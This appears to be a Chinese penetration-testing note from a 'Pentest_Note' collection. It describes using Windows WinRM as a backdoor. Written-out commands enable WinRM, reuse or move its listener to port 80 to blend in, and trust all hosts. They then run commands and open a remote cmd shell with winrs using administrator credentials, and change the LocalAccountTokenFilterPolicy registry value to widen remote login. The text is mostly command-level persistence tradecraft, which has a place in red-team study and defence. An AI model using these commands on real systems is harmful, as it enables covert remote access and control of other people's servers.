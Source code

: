 	WinRM端口5985，win2012以上默认启动，2008开启命令
	>winrm quickconfig -q
	2012启用端口复用
	>winrm set winrm/config/service @{EnableCompatibilityHttpListener="true"}
	2008启用WinRM后修改端口为80
	>winrm set winrm/config/Listener?Address=*+Transport=HTTP @{Port="80"}
	后门连接和使用
	本地开启WinRM并设置信任连接主机
	>winrm quickconfig -q
	>winrm set winrm/config/Client @{TrustedHosts="*"}
	执行命令
	>winrs -r:http://10.1.1.100 -u:administrator -p:password ipconfig /all
	获取cmdshell
	>winrs -r:http://10.1.1.100 -u:administrator -p:password cmd
![image](/assets/Pentest_Note/master/img/456.png)

	只administrator允许远程登录WinRM，允许其他用户可以登录，执行注册表
	>reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f